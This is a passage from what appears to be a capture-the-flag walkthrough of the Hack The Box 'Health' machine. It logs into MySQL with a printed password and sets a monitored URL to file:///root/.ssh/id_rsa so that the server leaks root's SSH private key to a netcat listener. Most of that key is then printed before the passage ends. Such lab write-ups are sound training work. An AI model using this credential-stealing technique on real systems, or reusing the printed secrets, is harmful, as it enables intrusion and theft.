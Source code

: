   <img src="htb-health-6.png">
- Step 3: Login to mysql server. Command: `mysql -u laravel -pMYsql_strongestpass@2014+ -D laravel`.
- Step 4: Update `monitoredUrl` value `update tasks set monitoredUrl='file:///root/.ssh/id_rsa';`.
- Step 5: Wait for sometimes and keep checking netcat connection. We should get respose like below:
  <img src="htb-health-7.png">

  The above response contains private rsa id of root user. By removing line breaking, we get data:
  ```
  -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
    KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
    IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
    KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
    7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
    W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
    NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
    t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
    C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
    hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
    efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
    1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
    nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
    sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
    fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
    0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
    zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
    rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
    N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
    SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
    ++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
  ```